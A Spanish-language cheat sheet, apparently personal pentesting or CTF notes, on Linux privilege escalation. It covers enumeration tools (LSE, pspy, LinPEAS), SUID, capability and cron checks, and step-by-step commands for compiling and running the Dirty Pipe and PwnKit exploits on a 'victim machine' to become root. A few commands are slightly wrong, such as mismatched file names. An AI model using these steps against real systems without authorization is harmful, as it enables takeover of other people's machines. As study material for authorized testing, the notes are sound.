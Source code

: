 # Escalacion de privilegios Linux

Tags: #Linux #Escalada #Root #Privilegios #Capabilities #SUID #LSE #PSPY #LinPEAS #CRON #Netstat #GCC

* [Hacktricks](https://book.hacktricks.xyz/welcome/readme)
* [GTFOBins](https://gtfobins.github.io/)

## Enumeracion Tools Automaticas Enumeration

-   [LSE](https://github.com/diego-treitos/linux-smart-enumeration)

Esta herramienta nos ayudar a identificar vulnerabilidades para poderla explotar y escalar privilegios.
	**lse.sh** > Mirar en modo Raw
	Copiar la url resultante en Raw 

```bash
❯ wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh # Binario que debemos de descargar
❯ chmod +x lse.                     # Le damos permisos de ejecucion 
❯ ./lse.sh                          # Ejecutamos el binario

	# h = Panel de ayuda
``` 


-   [PSPY](https://github.com/DominicBreuker/pspy)

Esta herramienta nos ayudara a identificar tareas, procesos que se estan ejecutando.
	Releases > Improved troubleshooting > **pspy64** -> Binario que debemos de descargar

```bash
❯ ./pspy                            # Ejecutamos el binario 
```


* [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)     ->     Para descragar el binario debemos de ir a **'Quick Start > the releases page > linpeas.sh'**
```bash
❯ chmod 777 linpeas.sh                   # Agregamos los privilegios para poder ejecutarlo en la maquina victima
❯ ./linpeas.sh                           # Para ejecutar el binario, podremos ver los diferentes colores y ahi podremos ver en donde es mas facil poder hacer el (PE=Privilege Escalation)

	# Podremos encontrar archivos o passwds

❯ ./linux-exploit-suggester.sh           # Podemos ver los CVE potenciales
```


## Manual 

```bash
❯ sudo -l                                          # Ver que permisos tenemos en el sudoers (l=ele)

	# (ALL : ALL) ALL
	# (root) NOPASSWD: /usr/bin/find -> Puede ejecutar un comando sin necesidad de password
```

```bash
❯ su root                                          # Para convertirnos en root y debemos de proporcionar una passwd
```

```bash
❯ uname -a                                         # Miramos informacion del Kernel
```

```bash
❯ id                                               # Para ver si estamos en un grupo especial
```

```bash
❯ ./bash -p                                        # Y asi obtenemos la bash del root, esta debe tener permisos SUID con la flag 's'

	# p = privilege
```

```bash
❯ netstat -nat                                    # Podemos ver los puertos abiertos internos 

	# 27017 = Mongo el cual podemos usar para buscar usuario y passwd
```


#### gcc

* [Dirty-Pipe-Arinerron](https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit)

```bash
❯ which gcc                                       

	# /usr/bin/gcc = El Dirty-Pipe nos ayudara a sobre-escribir el ''/etc/passwd' 
	# En la pagina de Arinerron nos vamos a 'exploit.c' despues le damos a RAW y copiamos el contenido en un archivo llamado 'priv.c' en la maquina victima en el dir '/tmp'

❯ gcc privesc.c -o privesc                       # Asi lo compilamos en la maquina victima
❯ ./privesc.c                                    # Ejecutamos el binario y nos convierte en root, ya que coloca a 'aaron' como usuario root y su passwd 'aaron'
❯ su root                                        # Cambiar a usuario root con el nombre aaron seteado
```

#### Privilegios SUID

* [GTFOBins](https://gtfobins.github.io/)
* [Pkexec-PwnKit](https://github.com/berdav/CVE-2021-4034)

Podemos ver en esa pagina que comando podemos usar si encontramos un permiso SUID
```bash 
❯ find / -perm -4000 -ls 2>/dev/null               # Buscaremos por privilegios SUID, con ls = Miramos los privilegios y buscamos los de root

	# /usr/bin/pkexec = Vulnerable al PwnKit           
```

```bash
# Para el Pkexec en la maquina de atacante 
❯ git clone https://github.com/berdav/CVE-2021-4034          # Nos descargara un archivo el cual debemos de comprimir y pasarlo a la maquina victima por http
❯ zip -r comprimido.zip CVE-2021-4034/                       # Comprimimos el archivo CVE y le ponemos de nombre 'comprimido.zip' 

# Para el Pkexec en la maquina victima
❯ unzip comprimido.zip                                       # Descomprimimos el archivo .zip
❯ cd CVE-2021-4034/                                          # Nos dirigimos al directorio
❯ make                                                       # Compilamos todo lo que se encuentra ahi
❯ ./cve-2021-4034                                            # Ejecutamos el archivo .sh y con eso nos convertimos en root
```

#### Capabilities

```bash
❯ which getcap                             # Para ver si esta instalado el Getcap y mirar las capabilities

❯ getcap -r / 2>/dev/null                  # Listamos las capabilities que existan desde la raiz de forma recursiva y buscamos el comando aqui GTFOBins [GTFOBins](https://gtfobins.github.io/)

Tipos de capabilities:
	# /usr/bin/perl cap_setuid+ep = Esta capabilitie nos permite gestionar el UID y hacer que opere como root
	# /usr/bin/python3.9  cap_setuid+ep = Esta capabilitie nos permite gestionar el UID y hacer que opere como root
```


#### Tareas CRON

```bash
❯ crontab -l                         # Ver las tareas CRON (l=ele) del sistema
❯ cat /etc/crontab                   # Ver el archivo como se estan ejecutando las tareas CRON
```

* Podemos crearnos un Script Manual para ver las tareas que se estan ejecutando y ver lor procesos nuevos, antiguos, asi como comandos y ver cual proceso nos puede ayudar a escalar privilegios. 
   Despues encontramos un archivo que lo esta ejecutando root y otros lo pueden modificar 
```bash 
❯ nano file.sh

	#!/bin/bash
	
	function ctrl_c(){
		echo -e "\\n[!] Saliendo \\n"
		tput cnorm; exit 1
	}
	
	# Ctrl + c
	trap ctrl_c INT
	tput civis
	old_process="$(ps -eo command)"

	while true; do
		new_process="$(ps -eo command)"
		diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "command|procmon|kworker"
		old_process=$new_process
	done	
```

```bash
❯ systemctl list-timers              # Para ver cada cuanto tiempo se ejecuta una tarea
```

---